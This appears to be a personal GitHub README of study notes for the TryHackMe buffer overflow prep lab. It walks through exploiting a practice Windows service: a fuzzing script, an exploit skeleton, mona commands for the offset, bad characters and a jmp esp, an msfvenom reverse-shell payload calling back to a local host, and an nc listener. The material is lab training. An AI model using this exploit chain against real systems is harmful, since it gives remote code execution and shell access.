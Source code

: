 # Mona setup

This is not a comprehensive guide on buffer overflows. This is my adapted version of the [TryHackMe BufferOverflowPrep course](https://tryhackme.com/room/bufferoverflowprep) walkthrough that focuses more on the commands used as a quick reference. I highly recommend reading the full walkthrough on the link above

For this setup, I had a Windows 10 virtual machine and a Kali linux virtual machine (Both running on Proxmox on my local network). I installed [Immunity Debugger](https://www.immunityinc.com/products/debugger) and [mona](https://github.com/corelan/mona) on the windows virtual machine. All `!mona` commands are run in the little command window at the bottom of immunity debugger. The python exploit script is run on the Kali Linux VM.

Open the `oscp.exe` application in Immunity Debugger and press the red play button at the top. We can also reset the `oscp.exe` application by pressing the black `<<` button near the red play button. You will need to reset the application when it crashes so this is very useful functionality.

# Initial setup

```bash
!mona config -set workingfolder c:\mona\%p
```

After the initial setup, we need to start enumerating where the offset for the overflow is.

# Fuzzing Script

Here is is a basic script for fuzzing for where the overflows

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

> Change the machine `ip` and the `prefix` to match your requirements. This was directly ripped from the [TryHackMe BufferOverflowPrep course](https://tryhackme.com/room/bufferoverflowprep)

# Finding the Offset for EIP Register

Once we find the amount of bytes that end up crashing the application, we need to generate a cyclic pattern to find the exact offset for the `EIP` register

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
```

> Replace `2000` with the value that the application crashed at

Copy the output of the script into the `payload` of this new script to perform the exploit:

```python
#!/usr/bin/env python3
import socket

ip = "192.168.0.87"
port = 1337

# Add bad chars here after first iteration of finding bad chars
# Then re-generate bytearray with the bad chars removed using mona
remove_badchars_from_badchars = "\x00"
badchars = "".join([chr(int(hex(x),16)) for x in range(1,256)])
for char in remove_badchars_from_badchars:
    badchars = badchars.replace(char, "")

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = "" # \x03\x12\x50\x62 \xaf\x11\x50\x62
padding = "\x90" * 0

# Badchars:
# Payload:
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Once you have run the exploit, use the following mona command to find the offset for the `RIP` register:

```bash
!mona findmsp -distance 2000
```

Now we can set the `offset` variable in our script to the value returned by the above command, remove the payload and set the return address to be `BBBB`

Run the script and ensure in Immunity Debugger that the return address is `42424242`. If it doesn't then we should run the previous step again and ensure the offset is correct.

# Finding Bad Characters

Now, before we start making a payload to run, we need to check if there are any bad characters that we cannot use in the payload.

To do this, we will use mona to create a list of possible bad characters, set that as the payload and then compare the output to the input using Mona.

In Immunity debugger, run

```
!mona bytearray -b "\x00"
```

Set this value in your payload script (in the script above I have added it as a variable. Just set `payload = badchars`)

Reset the application and run the exploit again, we need the `ESP` address for the following command4

```
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>
```

Use this to then work out the bad characters (It's easiest to look at the grid that mona creates in the terminal and look for the). The below image is an example of the values `\x00\x1d\x2e\xc7\xee` are bad characters.

![Bad Characters grid](images/Pasted_image_20230201154637.png "Bad Characters grid")

Some characters will then corrupt the character behind it, it doesn't mean the 2nd bad character is actually bad, check the below section if that is the case

## Consecutive bad characters

Sometimes when bad characters are next to each other they can be hard to find. If you get to the end and the final exploit doesn't work then place the bad characters you found into the `remove_badchars_from_badchars` variable and run the script again (obviously reset the application and run it).

Recreate a new bad characters array but remove the bad characters you know about:

```
!mona bytearray -b "\x00" # Add the bad characters after the \x00
```

Then run the `!mona comapre ...` again. This time it should have removed the previous bad characters and should have new characters that are corrupting the payload.   

# Find the Jump Point

Now to find a jump point which will replace the value of `EIP`:

```
!mona jmp -r esp -cpb "\x00" # Add any other bad characters here
```

Select one of the returned addresses, preferably one that has as many of the protections turned off (ASLR, Rebase, SafeSEH etc) and place the value in the `retn` variable in our script. 

# Generating the Payload

Now we can generate the payload and plug in all the values!

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.86 LPORT=9001 EXITFUNC=thread -f c -b "\x00" # Add the rest of the bad characters here
```

In the exploit script we have made, replace the values for the `payload` with the values we gained from the msfvenom script (Use the `overflow1.py` as a reference)

# Setup the listener & exploit!

Now is the fun part, set up a listener to wait for the connection back from the windows machine. I use `rlwrap` for line wrapping and command history (`sudo apt install rlwrap`):

```bash
rlwrap nc -nvlp 9001
```

Simply run the exploit and hope for a shell!

> Some payloads (especially when encoders are used by `msfvenom`) may require you to increase the `padding` before the payload as they require space to un-pack the payload. In this case simply set the `padding` multiplier to something like 8 or 16 (It can be any value, trial and error it to find the smallest value that works :D )
